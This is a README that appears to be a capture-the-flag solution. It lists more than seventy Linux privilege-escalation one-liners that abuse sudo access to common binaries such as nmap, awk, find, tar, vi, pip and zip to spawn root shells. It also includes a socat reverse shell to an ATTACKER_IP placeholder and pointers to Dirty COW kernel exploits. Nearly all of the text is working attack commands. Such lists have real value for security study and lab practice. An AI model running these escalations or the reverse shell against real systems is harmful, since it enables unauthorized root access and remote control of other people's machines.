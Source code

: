 # Privilege Escalation Techniques

## Commands List

1. `nmap --interactive; !sh`
2. `echo "os.execute('/bin/sh')" > shell.nse && sudo nmap --script=shell.nse`
3. `sudo awk 'BEGIN {system("/bin/sh")}'`
4. `sudo find /home -exec /bin/bash \;`
5. `sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`
6. `sudo less /etc/hosts` then `!/bin/bash`
7. `sudo bash`
8. `sudo perl -e 'exec "/bin/bash";'`
9. `sudo python -c 'import pty; pty.spawn("/bin/bash")'`
10. `sudo man man`
    `!/bin/bash`
11. `sudo vi`
    `:!/bin/bash`
12. `sudo vim -c '!sh'`
13. `sudo env /bin/bash`
14. `sudo ftp`
    `!/bin/bash`
15. On Attacker Machine run:
    ```sh
    socat file:`tty`,raw,echo=0 tcp-listen:1234
    ```
    Then on Target Machine run:
    ```sh
    sudo socat exec:'sh -li',pty,stderr,setsid,sigint,sane tcp:<ATTACKER_IP>:1234
    ```
16. `sudo /bin/bash -p`
17. `sudo -s`
18. `sudo php -r "system('/bin/sh');"`
19. `sudo strace -o /dev/null /bin/sh`
20. `sudo xargs -a /dev/null sh`
21. `sudo timeout --foreground 7d /bin/sh`
22. `sudo expect -c 'spawn /bin/sh; interact'`
23. `sudo ionice /bin/sh`
24. `sudo /usr/bin/time /bin/sh`
25. `sudo taskset 1 /bin/sh`
26. `sudo flock -u / /bin/sh`
27. `sudo setarch $(arch) /bin/sh`
28. `sudo stdbuf -i0 /bin/sh`
29. `sudo rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null`
30. `sudo pg /etc/profile`
    `!/bin/sh`
31. `sudo nice /bin/sh`
32. `sudo gdb -nx -ex '!sh' -ex quit`
33. `sudo dmsetup ls --exec '/bin/sh -s'`
34. `sudo start-stop-daemon -n $RANDOM -S -x /bin/sh`
35. `sudo logsave /dev/null /bin/sh -i`
36. `sudo sed -n '1e exec sh 1>&0' /etc/hosts`
37. `sudo mount -o bind /bin/sh /bin/mount`
    `sudo mount`
38. `sudo dash`
39. `sudo ksh`
40. `sudo ip netns add foo`
    ```sh
    sudo ip netns exec foo /bin/sh
    sudo ip netns delete foo
    ```
41. `TERM= sudo more /etc/profile`
    `!/bin/sh`
42. `sudo zsh`
43. `sudo less /etc/profile`
    `!/bin/sh`
44. `sudo busybox sh`
45. `sudo run-parts --new-session --regex '^sh$' /bin`
46. `sudo unshare /bin/sh`
47. `sudo ltrace -L /bin/sh`
48. `sudo lua -e 'os.execute("/bin/sh")'`
49. `sudo mawk 'BEGIN {system("/bin/sh")}'`
50. `git help config`
    `!/bin/sh`
51. `sudo service ../../bin/sh`
52. `sudo irb`
    `exec '/bin/bash'`
53. `sudo pic -U`
    ```sh
    .PS
    sh X sh X
    ```
54. `sudo puppet apply -e "exec { '/bin/sh -c \"exec sh -i <$(tty) >$(tty) 2>$(tty)\"': }"`
55. `sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x`
56. `sudo rlwrap /bin/sh`
57. `sudo ruby -e 'exec "/bin/sh"'`
58. `sudo tclsh`
    ```tcl
    exec /bin/sh <@stdin >@stdout 2>@stderr
    ```
59. ```sh
    TF=$(mktemp -u) && sudo zip $TF /etc/hosts -T -TT 'sh #'
    sudo rm $TF
    ```
60. `sudo csh`
61. ```sh
    TF=$(mktemp -d)
    echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
    sudo easy_install $TF
    ```
62. `sudo emacs -Q -nw --eval '(term "/bin/sh")'`
63. `sudo tmux`
64. `sudo screen`
65. `sudo script -q /dev/null`
66. ```sh
    TF=$(mktemp)
    echo 'sh 0<&2 1>&2' > $TF
    chmod +x "$TF"
    sudo scp -S $TF x y:
    ```
67. `sudo rvim -c ':py import os; os.execl("sh", "sh", "-c", "reset; exec sh")'`
68. ```sh
    TF=$(mktemp -d)
    echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
    sudo pip install $TF
    ```
69. `sudo ash`
70. `sudo gawk 'BEGIN {system("/bin/sh")}'`
71. `sudo nawk 'BEGIN {system("/bin/sh")}'`
72. `vi`
    `:set shell=/bin/bash:shell`
73. Kernel Exploits:

    Use Linux Exploit Suggester which suggests Dirty COW vulnerability - <https://github.com/mzet-/linux-exploit-suggester>
    
    Then Use Dirty Cow exploit to get root — <https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs>

The flag is at location `/root/flag.txt`. Read and submit it when you are root :smiley:

## Useful Resources used while solving this:
- <https://github.com/t0thkr1s/gtfo>
- <https://gtfobins.github.io/>

